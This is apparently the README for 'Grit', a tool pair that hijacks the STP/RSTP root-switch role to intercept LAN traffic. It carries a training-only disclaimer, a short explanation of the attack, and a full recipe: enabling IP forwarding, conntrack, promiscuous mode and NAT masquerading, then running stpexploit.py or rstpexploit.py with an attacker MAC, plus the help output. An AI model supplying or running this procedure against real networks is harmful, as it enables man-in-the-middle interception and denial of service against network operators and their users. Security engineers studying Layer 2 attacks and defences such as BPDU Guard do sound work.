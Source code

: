 # Grit
STP &amp; RSTP Root Hijacking Exploits

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

ᛝ

## 1. Mechanics of the attack.

The basic principle of the tools is to generate an STP/RSTP frame with the lowest priority value. Which in turn allows you to intercept the role of the root switch.
After that, an opportunity will open for a MITM attack, you will partially intercept traffic, not all of it. Keep that in mind.
But don't forget that the BPDU GUARD system can stop you.

Before performing the injection, you should first analyze what type of STP protocol is used. And based on this, to start further...
By the way, nothing prevents an attack against the classic STP using an exploit for RSTP.
If a mitm attack fails, feel free to experiment and try two versions of exploits at once (STP exploit for RSTP, RSTP exploit for STP)
Also, after injection, some switches will generate TCN messages (Topology Change Notification)

If there are any problems, write to "Issues"

## 2. Limitations

Depending on the power of your hardware. some host traffic will go through you, you have to withstand this load, otherwise DoS will occur.

## 3. Attack
First you need to install the dependencies.

```
sudo pip3 install -r requirements.txt
```

### 3.1 Enable Forwarding

```
sudo sysctl -w net.ipv4.ip_forward=1
```
### 3.2 Enable Conntrack (nf_conntrack_helper)
```
sudo modprobe nf_conntrack
sudo echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
### 3.3 Promisc mode on interface
```
sudo ifconfig ethX promisc
```
### 3.4 NAT
```
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUEADE
```

### 3.5 Start of injection.
#### 3.5.1 STP
```
sudo python3 stpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX 
```
#### 3.5.2 RSTP
```
sudo python3 rstpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX
```
After executing the injection, you will intercept the role of the root switch. you can track generated STP ads in Wireshark or tcpdump :)



## 4. Help

```
python3 stpexploit.py  --help     

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

STP Root Hijacking Exploit
For the classic version of Spanning Tree Protocol

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: stpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Choose the interface to attack
  --mac EVILMAC         Specify your MAC
```

```
python3 rstpexploit.py --help                                                                                                                          2 ↵

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

RSTP Root Hijacking Exploit
For Rapid Spanning Tree Protocol version

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: rstpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
  --mac EVILMAC
```
